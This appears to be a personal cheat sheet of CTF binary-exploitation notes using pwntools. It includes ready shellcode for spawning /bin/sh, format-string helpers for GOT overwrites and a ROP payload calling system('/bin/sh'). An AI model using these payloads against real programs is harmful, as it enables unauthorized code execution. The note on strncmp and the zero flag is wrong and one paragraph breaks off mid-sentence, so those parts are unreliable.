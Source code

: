 # Summary

## Overwriting GOT technique
If there is a format string vuln, you can use it to overwrite some function in GOT with an address of your buffer location on stack. Generally, you will place shellcode in this buffer. Then, when the program executes this 


## Generic Template
```python

from pwn import *

PROGNAME = "./<name>"
REMOTEIP = "<ip>"
REMOTEPORT = 1234

if args.REMOTE:
    p = remote(REMOTEIP, REMOTEPORT)
    elf = ELF(PROGNAME)
else:
    p = process(PROGNAME)
    elf = p.elf

p.interactive()
```

## Shell code
```python
shellcode = asm(shellcraft.sh())  

#Smaller shellcode ~27 bytes
shellcode = b'\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80'

```

Buffer Overflows: Calculating return address offsets
```
cyclic 2000 | xclip -selection clipboard
cyclic -l <addr where program crashed>
```

## Creating payloads - pwntools fit
```
payload = fit({
    offset: elf.symbols["system"],
    offset + 4: p32(0), 
    offset + 8: p32(target) #The address to a string "/bin/sh"
})
```

## Format strings writing to an address
```python
def get_n(new, prev, size):
    while new <= prev:
        new += (1 << size)
    return new-prev

#Function that returns payload = <base_addr> + <base_addr + 1> + <base_addr + 2> + <base_addr + 3>
def gen_addrs(base_addr):
    addrs = b''
    for i in range(4):
        addrs += p32(base_addr + i)
    return addrs

#Function to return the format string
#Args - address to write, current payload length, printf stack 
def gen_format_writes(to_write, setup_len, stack_offset):
    payload = b''
    n_val = [setup_len]
    for i in range(4):
        n_val += [get_n(to_write[i], sum(n_val[:i+1]), 8)]
        payload += '%{}c'.format(n_val[i+1]).encode()
        payload += '%{}$hhn'.format(stack_offset + i).encode()
        print("Payload part " + str(i) + " = " + str(payload) )
    return payload
```

```python
fmtstr_payload(offset=12, writes={old_address: new_address})
```
Note: Use numbwritten to specify the offset

## ROP code snippet 

```python
target = next(elf.search(b"/bin/sh\x00"))
assert (target is not None)

payload = fit({
    offset: elf.symbols["system"],
    offset + 4: p32(0), #The return address from system
    offset + 8: p32(target) #The address to a string "/bin/sh"
})
```


## Common re
`strncmp` sets zero flag(ZF) to 0 if strings are equal. The jne branch will be taken if ZF=0 (i.e. if strings are eqla)
```
strncmp
test eax eax
```

## Regex patterns I've used
```python
match = re.search(r'0x[a-f0-9]+', p.recvline().decode())
leak = int(match.group(), 16)
```

## gcc compile
```
gcc hello.c -o hello32 -m32
``` 